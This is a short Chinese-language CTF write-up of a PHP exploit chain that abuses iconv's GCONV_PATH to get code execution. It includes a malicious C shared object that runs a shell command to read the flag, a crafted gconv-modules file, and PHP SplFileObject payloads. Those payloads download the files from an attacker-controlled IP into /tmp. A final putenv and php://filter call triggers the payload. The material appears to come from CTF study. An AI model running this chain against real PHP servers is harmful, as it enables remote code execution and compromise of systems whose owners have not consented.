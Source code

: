 参考：https://xz.aliyun.com/t/8669#toc-8

**流程：**

用自己的linux系统

创建payload.c

```c
#include <stdio.h>
#include <stdlib.h>

void gconv() {}

void gconv_init() {
  puts("pwned");
  system("bash -c '/readflag > /tmp/sna'");
  exit(0);
}

```

生成so文件（这儿介绍哈so文件）

```c
gcc payload.c -o payload.so -shared -fPIC 
```

再创建一个gconv-modules文件

```
module  PAYLOAD//    INTERNAL    ../../../../../../../../tmp/payload    2
module  INTERNAL    PAYLOAD//    ../../../../../../../../tmp/payload    2
```

把这两个文件放到服务器上，记得打开端口，然后创建一个网站，能直接访问到网站的目录。

![image-20220326221929952](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203271910593.png)

然后利用 `SplFileObject` 写 **payload.so** 和 **gconv-modules**

一定等响应包状态为200，才是写进去文件了

```php
a=$url="http://xx.xx.171.248:10000/payload.so";$file1=new SplFileObject($url,'r');$a="";while(!$file1->eof()){$a=$a.$file1->fgets();}$file2 = new SplFileObject('/tmp/payload.so','w');$file2->fwrite($a);

```

```php
a=$url = "http://xx.xx.171.248:39543/gconv-modules";$file1 = new SplFileObject($url,'r');$a="";while(!$file1->eof()){$a=$a.$file1->fgets();}$file2 = new SplFileObject('/tmp/gconv-modules','w');$file2->fwrite($a);

```

利用伪协议触发

```php
a=putenv("GCONV_PATH=/tmp/");show_source("php://filter/read=convert.iconv.payload.utf-8/resource=/tmp/payload.so");
```
